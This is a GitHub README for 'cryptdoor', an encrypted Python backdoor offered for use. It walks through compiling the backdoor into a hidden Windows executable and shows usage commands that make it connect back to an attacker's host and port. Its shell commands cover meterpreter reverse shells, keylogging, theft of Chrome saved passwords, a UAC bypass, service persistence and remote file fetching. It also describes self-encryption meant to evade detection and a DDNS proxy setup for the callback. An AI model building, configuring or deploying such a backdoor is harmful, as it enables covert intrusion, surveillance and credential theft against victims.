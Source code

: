 cryptdoor
=========

AES encrypted python backdoor that communicates only AES encrypted traffic.
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).
We can also download and upload files over the secure AES encrypted connection.
Keylogging is implemented for windows using pyHook.
All traffic apart from traffic meterpreter makes are encrypted with AES.
On top of this all of the imports are randomized, and the script is encrypted with AES and decrypts 
itself in memory at runtime (taken from pyherion).

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

	"C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

	"C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

	pip install pyinstaller pycrypto

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py if you want to use a proxy.
10. Open a new cmd promt and cd to wherever backdoor.py is.

	pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Usage
=========

	usage: ./cryptdoor.py [options]

	optional arguments:
	  -h, --help            show this help message and exit
	  -i HOSTNAME, --hostname HOSTNAME
	                        Ip or hostname to connect back to.
	  -p PORT, --port PORT  Port.
	  -a, --persistence     Enable Auto-persistence.
	  -x, --proxy           Enable HTTP proxy connect.
	  -b BACKDOORNAME, --backdoorname BACKDOORNAME
	                        Name of backdoor (default backdoor.py).
	  -s SERVERNAME, --servername SERVERNAME
 	                       Name of server (default server.py).


cryptdoor.py will make the backdoor and server.
The syntax is:

	./cryptdoor.py -i host -p port

You can add a -a to attempt automatic persistence like:

	./cryptdoor.py -i host -p port -a

host and port refer to the host and port of the listening server (attacker).
These are the options you have from withing the shell:

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to remote pwd.

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.

Proxies
=========

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the cryptdoor script from line 267-268, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying does not work without one.)

3. Then generate your backdoor with the -x switch and replace the IP with your DDNS hostname:

	./cryptdoor.py -i DDNS -p port -x



